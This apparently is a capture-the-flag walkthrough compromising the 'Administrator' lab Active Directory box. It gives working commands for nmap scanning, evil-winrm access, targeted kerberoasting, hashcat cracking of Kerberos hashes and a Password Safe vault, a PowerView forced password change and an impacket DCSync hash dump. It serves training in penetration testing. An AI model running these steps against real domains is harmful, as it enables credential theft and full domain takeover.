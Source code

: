 ![Administrator](https://github.com/user-attachments/assets/258657d5-df42-4f69-aed4-223f0bc878de)

## Reconnaissance & port scanning
We start the encounter with the access to the initial user `olivia::ichliebedich`, which we will soon use to access the machine and enumerate it.

Starting with `nmap` scan:
```
# Nmap 7.94SVN scan initiated Mon Mar 10 15:02:51 2025 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.42
Nmap scan report for 10.10.11.42 (10.10.11.42)
Host is up, received conn-refused (0.033s latency).
Scanned at 2025-03-10 15:02:51 CET for 18s
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        syn-ack Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-03-10 21:04:01Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T21:04:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35406/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 35759/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52617/udp): CLEAN (Timeout)
|   Check 4 (port 63738/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 7h01m02s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 10 15:03:09 2025 -- 1 IP address (1 host up) scanned in 18.43 seconds
```

As we can see, the box is an Active Directory instance (as it hosts fundamental AD services, such as Kerberos, LDAP etc.). Now we will proceed to the machine itself in order to enumerate the network.

### Active Directory enumeration
Let's access the machine:
```bash
evil-winrm -i 10.10.11.42 -u Olivia -p ichliebedich
```

![01_evil_winrm](https://github.com/user-attachments/assets/ac1060e0-6d23-41ca-a553-6a8fa4fa2479)


Using `evil-winrm`, we can easily upload any tool from the Kali machine using `upload` command. The tools are essential in AD encounters, as they greatly simplifies the enumeration process, if the being stealth is not a requirement.

While running the `SharpHound`, we enumerate the environment with generic Active Directory cmdlets:

Enumerating users:
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName
```

![02_user_enumeration](https://github.com/user-attachments/assets/d074b69a-8ad2-4436-9024-89b64dcf189d)

Enumerating `olivia`'s ACLs:
```powershell
foreach($line in [System.IO.File]::ReadLines("C:\Users\olivia\Documents\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'ADMINISTRATOR\\Olivia'}}
```

![03_olivia_acl](https://github.com/user-attachments/assets/0d6aa3c6-da27-4a06-8e17-72a5abac8056)

As we can see, `olivia` has `GenericAll` right over user `michael`, which can be leveraged in order to force-change his password. We can see this also in Bloodhound:

![04_olivia_bloodhound](https://github.com/user-attachments/assets/6cdcff37-199f-4329-b26a-2f7717f23efe)

Further enumeration did not returned any easy wins, which could indicate some misconfigurations or hardcoded credentials at other users directories. Let's proceed to the initial lateral movement over the network.
## Lateral movement
We can leverage many methods to gain access over `michael` user, as force-changing his password, perform targeted kerberoasting and more. As we will try to cause as little damage as possible, we will perform targeted kerberoasting.
### Targeted kerberoasting on `michael`
First we need to synchronise Kali's clock with Kerberos instance on the box:
```bash
sudo timedatectl set-ntp off && sudo rdate -n administrator.htb
```

Now we can perform the attack:
```bash
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'olivia' -p 'ichliebedich'
```

![05_olivia_kerberoasting](https://github.com/user-attachments/assets/9c907d92-7c78-4ee6-be08-34c87be5f7d8)


The password can be easily cracked with `hashcat`:
```bash
hashcat -m 13100 michael_hash /usr/share/wordlists/rockyou.txt
```

Having access to `michael`, we can repeat enumeration and proceed to next user `benjamin`.

### Force-changing password for `benjamin`
As `michael` has `ForceChangePassword` ACE over `benjamin`, we can leverage this to force-change `benjamin` password. It is worth noted, that in real penetration test such attacks are not advised, as they can interfer with the client's AD domain (as we are changing someone password without their knowledge) and could be detected.

We will perform the attack from inside Windows machine:
```powershell
$SecPassword = ConvertTo-SecureString 'crackedPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR\Michael', $SecPassword)
$victimPassword = ConvertTo-SecureString 'newPassword' -AsPlainText -Force

Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity Benjamin -AccountPassword $victimPassword -Credential $Cred -Verbose
```

![06_michael_force_changing_pass](https://github.com/user-attachments/assets/db9d9623-c2b5-404b-b728-ee3a87f3dd53)

Interestingly, we cannot `winrm` as the `benjamin`. This prompts, that the next step lays somewhere else.

## Enumeration and stored credentials
Further enumeration of the machine's services (such as Samba, LDAP and previously discovered FTP) returned some interesting findings on FTP server hosted on the machine:

![07_ftp](https://github.com/user-attachments/assets/fc6a6cb0-0669-4f08-b7fa-ea82b6ade71e)

The `Backup.psafe3` looks like a vault file of password manager which could be cracked. After downloading the file, we can try crack it with `hashcat`:
```bash
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt 
```

And indeed, the vault is cracked! 

![08_vault](https://github.com/user-attachments/assets/63ca45d9-801a-426a-860a-1baf6d8a18f8)

Using `pwsafe` we can open the vault and read its contents:

![09_vault_contents](https://github.com/user-attachments/assets/2c58233f-4ffe-4aa5-9a38-81c5f7e4a773)

With this, we just gained access to three new accounts. After listing which users have home directories on the machine, we can see that `emily` could be of interest:

![10_users_homes](https://github.com/user-attachments/assets/d6cd3dce-0bc9-4f6a-a37b-06802c9254a2)

After authenticating as `emily`, we can read the first flag:

![11_user_flag](https://github.com/user-attachments/assets/9ac9afa0-67e2-4e00-bf54-5733d64e3fa8)

## Privilege escalation
### `emily` Enumeration
As we can see in Bloodhound, `emily` has `GenericAll` right over user `ethan`, which can perform DCSync attack to dump hashes of entire domain.

![12_emily_bloodhound](https://github.com/user-attachments/assets/e64022a9-3816-4ef6-8e82-d9296d3bf6ea)

![13_ethan_bloodhound](https://github.com/user-attachments/assets/05c76354-c17b-478d-91bf-835fc2e09cbb)

### Targeted kerberoasting on `ethan`
There we just repeat the steps from previous targeted kerberoasting and crack the password for `ethan`:

![14_ethan_hashcat](https://github.com/user-attachments/assets/594f7599-f1c0-4636-9f4a-01e1aabcea9b)

### DCSync attack
Knowing the `ethan` password, we can perform DCSync attack in order to dump hashes:
```bash
impacket-secretsdump -outputfile administrator.htb_hashes -just-dc ADMINISTRATOR/ethan@10.10.11.42
```

![15_dcsync](https://github.com/user-attachments/assets/4d825707-de64-4c36-88d7-ca0719f3bfb3)

This attack returns us hashes of entire domain, where for us the most valuable is the `Adminsitrator` hash and therefore, access the final root flag:

![16_administrator](https://github.com/user-attachments/assets/85ba71f2-88e8-437e-a84a-3f78dadaf292)

